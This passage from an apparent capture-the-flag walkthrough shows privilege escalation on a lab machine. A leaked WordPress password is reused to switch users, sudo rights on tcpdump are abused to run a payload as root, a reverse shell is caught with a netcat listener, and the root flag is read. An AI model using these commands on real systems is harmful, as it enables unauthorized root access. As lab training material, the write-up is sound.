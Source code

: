 ```console
/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
...
```

## Privilege Escalation
### Password Reuse

I tried to re-use the password **MasterOfTheUniverse** to log in as the user webdeveloper.

```console
www-data@webdeveloper:/var/www/html$ su - webdeveloper
su - webdeveloper
Password: MasterOfTheUniverse

webdeveloper@webdeveloper:~$
```

We can run the tcpdump tool with sudo permissions, a way to get root.

```console
webdeveloper@webdeveloper:~$ sudo -l
sudo -l
[sudo] password for webdeveloper: MasterOfTheUniverse

Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
webdeveloper@webdeveloper:~$
```

### Sudo Permissions

We will reuse the payload generated before, set up a netcat listener on port 443, and we execute the following tcpdump command that will execute our payload as user root, this topic was extracted from [GTFOBINS](https://gtfobins.github.io/gtfobins/tcpdump).

```console
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/evil -Z root
```

And finally we have a shell with root permissions, and read the flag.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.184] 39914
script -qc /bin/bash /dev/null
root@webdeveloper:/home/webdeveloper#
```

```console
root@webdeveloper:/home/webdeveloper# cd /root
cd /root
root@webdeveloper:/root# ls 
ls 
flag.txt
root@webdeveloper:/root# cat flag.txt
cat flag.txt
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
root@webdeveloper:/root#
```
